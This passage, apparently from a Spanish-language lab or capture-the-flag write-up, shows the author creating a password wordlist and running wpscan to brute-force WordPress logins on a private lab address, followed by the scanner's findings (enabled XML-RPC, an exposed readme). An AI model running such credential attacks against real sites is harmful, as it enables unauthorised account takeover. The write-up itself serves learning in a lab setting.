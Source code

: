 Por lo que nos crearemos un diccionario con esto...

```shell
nano passwords.txt

#Contenido
*$eGRIf7v38s&p7
yP$*SV09YOrx7mY
GmceC&oOBtbnFCH
3!IZguT2piU8X$c
P&s%F1D4#KDBSeS
$EPid%J2L9LufO5
nD!mb*aHON&76&G
$*Ke7q2ko3tqoZo
SCb$I^gDDqE34fA
Ae%tM0XIWUMsCLp

#Guardar y salir
^X
y
<ENTER>
```

```shell
wpscan --url http://<IP>:65535/phpcms/ --usernames users.txt --passwords passwords.txt
```

Info:

```
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.25
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://192.168.5.164:65535/phpcms/ [192.168.5.164]
[+] Started: Mon Jun  3 10:18:08 2024

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.29 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://192.168.5.164:65535/phpcms/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://192.168.5.164:65535/phpcms/readme.html
 | Found By: Direct Access (Aggressive Detection)
```